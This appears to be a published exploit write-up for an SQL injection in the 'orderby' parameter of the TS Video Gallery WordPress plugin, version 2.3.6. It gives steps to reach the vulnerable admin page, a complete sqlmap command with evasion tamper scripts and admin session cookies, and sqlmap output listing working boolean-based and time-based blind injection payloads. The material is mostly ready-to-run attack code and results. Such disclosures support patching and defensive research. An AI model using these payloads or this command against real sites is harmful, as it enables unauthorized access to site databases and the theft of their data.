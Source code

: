 #### Exploit Title: Wordpress Video Gallery - YouTube Gallery and Vimeo Gallery Plugin SQL Injection 
#### Date: 2024-07-05
#### Exploit Author: tmrswrr
#### Category : Webapps
#### Vendor Homepage: https://total-soft.com/wp-video-gallery/
#### Version 2.3.6

1. **Access the Admin Panel:**
   - Navigate to the admin panel of your WordPress site.
   - Go to `TS Video Gallery > Create > Use Theme` and save it.

2. After saving, go back to TS Video Gallery and click the title: https://localhost/wordpress/wp-admin/admin.php?page=tsvg-admin&orderby=TS_VG_Title&order=asc

3. Search for the `orderby` parameter.

### SQLMAP COMMAND

```bash
python3 sqlmap.py -u "https://localhost/wordpress/wp-admin/admin.php?page=tsvg-admin&orderby=TS_VG_Title&order=desc" --batch --dbms=mysql --thread 10 --no-cast --random-agent -v 3 --tamper="between,randomcase,space2comment" --level=5 --risk=3 -p orderby --cookie="wordpress_logged_in_d31d6d9d0bfd834c03c5a471886561f0=admin|1720346143|BXq7Kk6kWE6W8OhFfxRfE1vpFt00m9gRiPafjJPDU1N|0b78b25e2683d7f381967019db82b3f3fd9b06f1524ec128af92a74fe7c68e8f; \
wordpress_sec_d31d6d9d0bfd834c03c5a471886561f0=admin|1720346143|BXq7Kk6kWE6W8OhFfxRfE1vpFt00m9gRiPafjJPDU1N|307f68044e4c2632757b13f86f770ceda3c9c7866a0b595b33a7a2f675224a15; \
wordpress_test_cookie=WP Cookie check; \
wp-settings-time-1=1720173805" --thread 10
```

### RESULT

sqlmap identified the following injection point(s) with a total of 1026 HTTP(s) requests:
---
Parameter: orderby (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: page=tsvg-admin&orderby=(SELECT (CASE WHEN (1078=1078) THEN 0x54535f56475f5469746c65 ELSE (SELECT 2977 UNION SELECT 8545) END))&order=desc
    Vector: (SELECT (CASE WHEN ([INFERENCE]) THEN [ORIGVALUE] ELSE (SELECT [RANDNUM1] UNION SELECT [RANDNUM2]) END))

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: page=tsvg-admin&orderby=TS_VG_Title AND (SELECT 6127 FROM (SELECT(SLEEP(5)))mIWx)&order=desc
    Vector: AND (SELECT [RANDNUM] FROM (SELECT(SLEEP([SLEEPTIME]-(IF([INFERENCE],0,[SLEEPTIME])))))[RANDSTR])
---
[08:37:45] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[08:37:45] [INFO] the back-end DBMS is MySQL
[08:37:45] [PAYLOAD] (seLecT/**/(cAsE/**/WHen/**/(veRSIOn()/**/liKe/**/0x254d61726961444225)/**/ThEN/**/0x54535f56475f5469746c65/**/elSE/**/(seLecT/**/6685/**/UNiON/**/seLecT/**/9990)/**/End))
web application technology: Apache 2.4.54, PHP 8.0.23
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)

<img alt="Result" src="https://raw.githubusercontent.com/capture0x/Gallery-Plugin-SQL-Injection/main/10.png">


